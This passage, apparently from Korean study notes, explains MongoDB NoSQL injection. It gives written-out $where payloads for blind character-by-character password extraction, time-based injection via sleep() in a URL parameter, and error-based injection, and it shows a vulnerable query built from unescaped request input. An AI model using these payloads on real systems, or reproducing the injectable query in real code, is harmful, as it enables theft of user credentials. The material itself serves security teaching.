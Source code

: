 해당 연산자로 `javascript` 표현식을 입력하면, 앞에서 배웠던 Blind SQL Injection에서 `substr`을 사용한 것과 같이 각 자리의 데이터를 알아낼 수 있다.

아래 쿼리는 `upw`의 첫 글자를 비교해 데이터를 알아내는 쿼리이다. 참고로 `substr`은 `1-index` 였지만, `substring`인 `0-index`이다.

```
> db.user.find({$where: "this.upw.substring(0,1)=='a'"})
> db.user.find({$where: "this.upw.substring(0,1)=='b'"})
> db.user.find({$where: "this.upw.substring(0,1)=='c'"})
...
> db.user.find({$where: "this.upw.substring(0,1)=='g'"})
{ "_id" : ObjectId("5ea0110b85d34e079adb3d19"), "uid" : "guest", "upw" : "guest" }
```

### 3. `Sleep` 함수를 통한 Time based Injection

MongoDB는 `sleep` 함수를 제공한다. 이 함수를 표현식과 함께 사용하면 **지연 시간을 통해 `True/False` 결과를 확인할 수 있다.**

아래 쿼리는 `upw`의 첫 글자를 비교하고, 해당 표현식이 참을 반환할 때 `sleep` 함수를 실행하는 쿼리이다.

```
db.user.find({$where: `this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'`});
/*
/?uid=guest'&&this.upw.substring(0,1)=='a'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='b'&&sleep(5000)&&'1
/?uid=guest'&&this.upw.substring(0,1)=='c'&&sleep(5000)&&'1
...
/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1
=> 시간 지연 발생.
*/
```

위의 코드에서 시간 지연이 발생하는 `/?uid=guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1`가 파라미터로 전달된다고 생각해보자. (`upw`는 파라미터가 존재하지 않기 때문에 `undefined`)

`uid`의 파라미터 값은 `guest'&&this.upw.substring(0,1)=='g'&&sleep(5000)&&'1`이다.

따라서, `this.uid == 'guest' && this.upw.substring(0,1) == 'g' && sleep(5000) && '1' && this.upw == ''` 표현식이 `True`가 되게 하는 `Document`가 리턴된다.

그런데 잘보면, `this.upw == ''`는 `True`가 될 수 없기 때문에 해당 표현식은 절대 `True`를 리턴할 수 없다.

하지만 `sleep` 함수의 존재 때문에, `this.uid == 'guest' && this.upw.substring(0,1) == 'g'` 까지가 `True`일 때만, **Short-circuit evaluation**에 의해 `sleep(5000)`이 호출되기 때문에 시간 지연으로 공격이 성공했는지 확인할 수 있다.

참고로, `&&'1`은 쿼리문을 끝내기 위한 코드이며, \
`db.user.find({$where: "this.uid=='${req.query.uid}'&&this.upw=='${req.query.upw}'"});` 쿼리문에서 `upw`가 일치해야 `True`가 리턴되기 때문에 `sleep` 함수를 통해서만 공격이 가능하다.

### 4. Error based Injection

Error based Injection은 에러를 기반으로 데이터를 알아내는 기법으로, Time based Injection과 거의 비슷한 방법으로 찾고자 하는 조건이 참인 경우에 **올바르지 않은 문법이 실행되도록 하여 고의로 에러를 발생시킨다.**

```
> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='g'&&asdf&&'1'&&this.upw=='${upw}'"});
error: {
	"$err" : "ReferenceError: asdf is not defined near '&&this.upw=='${upw}'' ",
	"code" : 16722
}
// this.upw.substring(0,1)=='g' 값이 참이기 때문에 asdf 코드를 실행하다 에러 발생

> db.user.find({$where: "this.uid=='guest'&&this.upw.substring(0,1)=='a'&&asdf&&'1'&&this.upw=='${upw}'"});
// this.upw.substring(0,1)=='a' 값이 거짓이기 때문에 뒤에 코드가 작동하지 않음
```
